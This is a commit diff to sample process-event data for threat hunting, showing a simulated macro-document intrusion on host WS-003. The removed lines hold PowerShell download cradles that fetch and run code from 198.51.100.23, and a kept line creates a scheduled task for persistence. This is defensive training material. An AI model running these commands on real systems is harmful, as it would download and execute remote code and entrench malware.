

Before and after one commit to ftrout/secops-claude-skills, a CSV file: skills/threat-hunting/examples/process_events.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/skills/threat-hunting/examples/process_events.csv
+++ b/skills/threat-hunting/examples/process_events.csv
@@ -32,4 +32,4 @@ timestamp,host,user,parent,process,cmdline
 2026-09-16T11:22:07Z,WS-003,carol,outlook.exe,winword.exe,"C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE /n ""C:\Users\carol\AppData\Local\Temp\invoice_0917.docm"""
-2026-09-16T11:22:19Z,WS-003,carol,winword.exe,cmd.exe,"cmd.exe /c powershell -w hidden -nop -c ""iex (new-object net.webclient).downloadstring('http://198.51.100.23/a')"""
-2026-09-16T11:22:20Z,WS-003,carol,cmd.exe,powershell.exe,"powershell -w hidden -nop -c ""iex (new-object net.webclient).downloadstring('http://198.51.100.23/a')"""
+2026-09-16T11:22:19Z,WS-003,carol,winword.exe,cmd.exe,"cmd.exe /c powershell -w hidden -nop -c ""[download cradle fetching http://198.51.100.23/a; redacted in sample data]"""
+2026-09-16T11:22:20Z,WS-003,carol,cmd.exe,powershell.exe,"powershell -w hidden -nop -c ""[download cradle fetching http://198.51.100.23/a; redacted in sample data]"""
 2026-09-16T11:23:02Z,WS-003,carol,powershell.exe,schtasks.exe,"schtasks /create /tn Updater /tr C:\Users\carol\AppData\Local\Temp\upd.exe /sc minute /mo 15"
```
Also changed, not shown: 10 other files.
